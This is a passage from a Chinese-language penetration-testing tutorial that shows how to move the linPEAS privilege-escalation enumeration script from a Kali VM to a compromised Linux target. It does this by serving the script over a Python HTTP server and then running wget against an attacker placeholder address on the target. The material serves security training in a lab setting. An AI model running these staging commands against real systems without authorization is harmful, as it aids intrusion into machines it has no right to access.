 图 11.14 – linPEAS Bash 脚本

在将 Bash 脚本下载到我们的 Kali 虚拟机后，我们需要将`linpeas.sh`文件传输到目标虚拟机。这不能自动完成，因为我们没有 meterpreter 会话。因此，我们需要使用 Linux 特定的工具来下载该二进制文件。

## 文件传输

为了将 `linpeas.sh` 文件传输到目标系统，我们需要在 Kali 虚拟机上设置一个 Web 服务器，用于托管该文件，以便我们可以在目标系统上下载它。可以按照此处概述的步骤进行操作：

1.  为了在 Kali 虚拟机上设置 Web 服务器，我们可以使用 `SimpleHTTPServer` Python 模块来提供二进制文件。这可以通过在存储 `linpeas.sh` 二进制文件的目录中运行以下命令来完成：

    `sudo python -m SimpleHTTPServer 80`

    注意

    `SimpleHTTPServer` 是一个适用于 Python 2 的模块，也可以在 Python 3 中使用，名称为 `http.server`。

    如下截图所示，`SimpleHTTPServer` 模块将在 Kali 虚拟机的 `Internet Protocol** (`IP**) 地址的 `80` 端口上提供该目录中的文件：

    ![图 11.15 – SimpleHTTPServer linPEAS    ](img/B17389_11_015.jpg)

    图 11.15 – SimpleHTTPServer linPEAS

1.  为了将 `linpeas.sh` 文件下载到目标系统，我们可以使用 `wget` 工具。然而，在下载二进制文件之前，我们需要导航到一个有读写权限的目录。在此，我们将导航到临时目录，如下截图所示：![图 11.16 – Linux 临时目录    ](img/B17389_11_016.jpg)

    图 11.16 – Linux 临时目录

1.  现在我们可以使用 `wget` 工具从 Kali 虚拟机下载文件到目标系统。这可以通过在目标系统上运行以下命令来完成：

    `wget http://<KALI-VM-IP>/linpeas.sh`

    此命令的输出如下所示：

    ![图 11.17 – 转移 linPEAS 脚本    ](img/B17389_11_017.jpg)
